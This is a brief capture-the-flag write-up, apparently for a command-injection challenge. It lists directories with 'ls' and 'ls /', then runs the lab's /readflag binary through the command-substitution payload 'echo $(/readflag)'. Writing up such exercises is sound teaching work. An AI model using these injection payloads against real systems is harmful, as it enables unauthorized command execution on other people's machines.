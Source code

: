 first of all we try to list the directories by doing 
```
ls
```

![alt text](images/image1.png)

now lets try to view the / directory
```
ls /
```

![alt text](images/image2.png)

we can't read the flag.txt so lets try to execute the readflag using the following payload

```
echo $(/readflag)
```

![alt text](images/image3.png)